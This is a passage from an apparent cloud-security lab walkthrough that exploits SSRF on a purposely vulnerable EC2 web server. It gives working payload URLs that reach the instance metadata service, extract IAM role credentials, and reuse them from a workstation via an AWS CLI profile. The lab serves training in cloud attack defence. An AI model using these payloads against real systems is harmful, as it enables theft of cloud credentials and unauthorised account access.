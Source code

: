 ## Step 2 - Exploiting the vulnerability

#### 1.  From the console, locate the ec2 instance that was provisioned. 

You can do so by visiting [EC2 console, and filtering for instance named "vulnerable instance"](https://console.aws.amazon.com/ec2/v2/home?#Instances:tag:Name=vulnerable-instance)


You can find the public IP by clicking on the instance, and going to `Details`, then `Public IPv4 address`.

Alternatively, you can search for your instance public IP address via CLI using following command

```shell 
 aws ec2 describe-instances \
    --filter "Name=tag:aws:cloudformation:logical-id,Values=vulnWebServer" \
    --query 'Reservations[0].Instances[0].PublicIpAddress'
```


#### 2.  Visit web application

In a seperate browser window, navigate to the public IP address of the ec2 instance.

**Make sure that you change the url to use http, as that is how we have configured our security group.**


```script 
 http://<public_ipv4_address>/
```

We can see that the web server is running, but it looks like it's expecting a query string.  We need to construct an SSRF payload.


<br />
<br />

#### 3.  Explore metadata vulnerability

First, let's look at some of the metadata categories available:

```script
 http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/
```

These are all categories of information that the ec2 instance would be able to access during it's day to day actions.


<br />
<br />

#### 4.  Extract AWS credentials

By navigating through the API structure, we can eventually get to credentials.  Paste each url into your browser to work through the API directory structure.   


**Variables Required**


{Instance-Profile} - The instance profile name will be unique to each environment.  This will be the value listed under `security-credentials` - 2nd url below

```script
 http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/

 http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials
 
 http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/{Instance-Profile}
```

<br />
<br />

#### 5. Extract the VM AWS credentials 

These are the credentials of the instance profile that is being used by the ec2 instance. By making a profile using these credentials, we will be able to execute AWS API calls using the identity of the ec2 instance instance profile.  

Copy the value of `AccessKeyId`, `SecretAccessKey` and `Token`, and use it to configure a profile called `ssrf-demo`.  
<br />

In order to do this, open your aws credential file in a text editor.  By default, credential files are stored in the following places:   
    - Windows: `C:\Users\username\.aws\credentials`  
    - Linux: `~/.aws/credentials`

Create a new entry called `ssrf-demo`.  

<b> Variables Required </b>  
- {AccessKeyId} - The Access key as found in the browser window.
- {SecretAccessKey} - The Secret Access key, as shown in the browser
- {Token} - The Token value, as shown in the browser. Please note that if you can't copy the 
  whole token, you may need to view page source in your browser, to copy the whole session token

<br />
<br />
```script
    [ssrf-demo]
    aws_access_key_id = ${AccessKeyId}
    aws_secret_access_key = ${SecretAccessKey}
    aws_session_token = ${Token}
```

At this point, you should be able to query caller identity API 
from your workstation

```shell
aws sts get-caller-identity --profile ssrf-demo
```

Given that your configuration was correct, you should see output like one below

```
{
    "UserId": "AROAYQJWPZVIG34M32UA7:i-0dd5d5c17f9175875",
    "Account": "584766704976",
    "Arn": "arn:aws:sts::123456789012:assumed-role/ec2-metadata-ssrf-webServerRole-10DJ6YCJ8YZIK/i-0dd5d5c17f9175875"
}
```

You can now move to [step 3](../step3/README.md)
